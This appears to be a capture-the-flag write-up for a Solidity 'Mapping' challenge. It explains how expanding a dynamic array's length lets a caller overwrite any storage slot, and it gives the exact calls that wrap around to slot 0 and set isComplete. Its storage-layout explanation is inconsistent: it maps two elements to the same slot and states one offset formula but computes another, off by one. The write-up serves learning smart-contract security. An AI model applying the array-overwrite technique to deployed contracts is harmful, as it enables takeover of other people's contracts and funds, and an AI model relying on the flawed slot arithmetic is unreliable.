

# Mapping

## topic

```solidity
pragma solidity ^0.4.21;

contract MappingChallenge {
    bool public isComplete;
    uint256[] map;

    function set(uint256 key, uint256 value) public {
        // Expand dynamic array as needed
        if (map.length <= key) {
            map.length = key + 1;
        }

        map[key] = value;
    }

    function get(uint256 key) public view returns (uint256) {
        return map[key];
    }
}
```

## analyses

This level is about the dynamic array storage mode in the storage layout of EVM. 

- In this level, the storage layout likes this
  - `bool public isComplete` is in slot 0
  - `uint256[] map` 's length is in slot 1. And it is member will be add in the following, for example: map[1]=>keccak256(1),map[2]=>keccak256(1) + 1, map[3]=>keccak256(1) + 2 and so on

```solidity
if (map.length <= key) {
	map.length = key + 1;
}
```

through this code,it can expand the `map`’s length to cover all `2^256 - 1` storage slots. This means that we can modify every slot in this contract.

But where is slot 0 in? we know that, we can set dynamic array slot after its first member, in this level, its first member【map[1]】 is in keccak256(1). isComplete is in slot 0, this means that it is in 0 or 2^256.  the following i will teach u how to count the isComplete's slot.

```
//keccak256(1) = 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
//slot 0 == 0 == slot isComplete == 2^256
//keccak256(1) + offset ==  2^256
//offset == 2^256 - keccak256(1)
```

```solidity
pragma solidity ^0.8.17;
contract MyContract {
    uint256 public maxUint256 = type(uint256).max;//115792089237316195423570985008687907853269984665640564039457584007913129639935
    uint256 public isCompleteSlot = maxUint256 - 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6;
    
    function x() public pure returns(bytes32){
        bytes32 y = keccak256(abi.encode(0x0000000000000000000000000000000000000000000000000000000000000001));
        return y;
    }//0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
}
//isCompleteSlot=35707666377435648211887908874984608119992236509074197713628505308453184860938
```

## solution 

1.expand the `map`’s length to cover all `2^256 - 1` storage slots：call `set(uint256, uint256)` with the parameters "`115792089237316195423570985008687907853269984665640564039457584007913129639934`" and "1"【type(uint256).max -1 = `115792089237316195423570985008687907853269984665640564039457584007913129639934`】

2.modify the slot 0 to 1: call `set(uint256, uint256)` with the parameters "`35707666377435648211887908874984608119992236509074197713628505308453184860938`" and "1". 

3.isComplete==true

4.u can check the storage layout:




